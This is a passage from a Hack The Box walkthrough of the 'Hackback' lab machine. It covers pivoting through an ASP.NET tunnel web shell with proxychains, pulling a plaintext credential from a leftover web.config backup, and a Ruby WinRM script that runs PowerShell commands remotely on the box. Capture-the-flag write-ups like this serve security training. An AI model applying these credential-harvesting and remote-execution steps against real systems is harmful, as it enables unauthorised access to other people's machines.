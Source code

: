 I've chosen the ASP.NET `tunnel.aspx` because obviously many of the PHP functions were disabled.

Once that's done, we can use `proxychains` to access the additional services. But first, we need some credentials from `C:\inetpub\wwwroot\new_phish\web.config.old`.

<a class="image-popup">
![bdebac49.png](/assets/images/posts/hackback-htb-walkthrough/d368339b.png)
</a>

## WinRM/WSMan and PowerShell

Armed with the credential (`simple:ZonoProprioZomaro:-(`) and the latest version of the [Ruby WinRM library](https://github.com/WinRb/WinRM), we can do something like this.

<div class="filename"><span>cmd.rb</span></div>

```rb
require 'winrm'

opts = {
  endpoint: 'http://10.10.10.128:5985/wsman',
  user: 'simple',
  password: 'ZonoProprioZomaro:-('
}

# Powershell commands
cmd = ARGV[0]

conn = WinRM::Connection.new(opts)
conn.shell(:powershell) do |shell|
  output = shell.run(cmd) do |stdout, stderr|
    STDOUT.print stdout
    STDERR.print stderr
  end
  puts "The script exited with exit code #{output.exitcode}"
end
```

I'm able to execute PowerShell commands as `simple` in the box!

<a class="image-popup">
![c4343fcd.png](/assets/images/posts/hackback-htb-walkthrough/c4343fcd.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/176
[2]: https://www.hackthebox.eu/home/users/profile/1391
[3]: https://www.hackthebox.eu/home/users/profile/12438
[4]: https://www.hackthebox.eu/